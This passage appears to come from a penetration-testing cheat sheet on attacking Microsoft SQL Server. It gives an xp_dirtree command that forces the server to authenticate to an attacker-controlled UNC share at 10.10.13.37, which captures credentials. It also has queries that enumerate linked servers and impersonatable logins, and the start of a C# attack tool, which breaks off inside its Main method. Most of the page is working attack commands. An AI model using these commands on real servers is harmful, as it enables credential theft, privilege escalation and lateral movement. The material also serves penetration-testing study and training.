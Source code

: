 Test for UNC path injection:

```
EXEC master..xp_dirtree '\\10.10.13.37\share\test.txt';
```

List linked servers:

```
EXEC sp_linkedservers;
```

List logins available for impersonation:

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```




## C\# Examples

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs)

{% code title="MSSQL.cs" %}
```csharp
using System;
using System.Data.SqlClient;

namespace MSSQL
{
    class Program
    {
        static string sqlQuery(string query, SqlConnection con)
        {
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            string result = "";
            try
            {
                while (reader.Read()) { result += $"{reader[0]}\n"; }
                result = result.Remove(result.Length - 1);
            }
            catch { }
            reader.Close();
            return result;
        }

        static void Main(string[] args)
        {
            // Authenticate
            string sqlServer = "SQLSRV01.megacorp.local";
            string database = "master";
            string conString = $"Server = {sqlServer}; Database = {database}; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);

            try
            {
                con.Open();
                Console.WriteLine("[+] Auth success!");
            }
            catch
            {
                Console.WriteLine("[-] Auth failed");
                Environment.Exit(0);
```